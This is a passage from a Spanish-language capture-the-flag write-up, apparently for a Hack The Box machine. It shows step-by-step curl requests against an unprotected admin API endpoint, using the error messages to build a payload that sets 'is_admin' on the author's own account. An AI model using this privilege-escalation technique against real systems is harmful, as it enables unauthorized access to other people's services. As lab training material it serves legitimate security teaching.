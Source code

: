 Como era de esperar no somos administradores.

La ruta `/api/v1/admin/settings/update` tiene como descripción `"Update user settings"`, esto parece interesante ya que, de no estar protegida, podríamos llegar a cambiar parámetros de nuestro usuario como por ejemplo si somos `admin` o no.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "status": "danger",
  "message": "Invalid content type."
}
```

nos dice que el tipo de dato que le estamos pasando por PUT es invalido, vamos a probar con **json**.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d "{}" | jq

{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Ahora nos dice que falta el campo email, vamos a añadir el email que hemos usado para registrarnos en la página.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

Nos pide el campo `is_admin`, vamos a intentar darle el valor `true`.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com", "is_admin": "true"}' | jq

{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```

Como nos dice que solo puede ser 0 o 1, deducimos que 1 seria el equivalente a `true` y 0 a `false`.

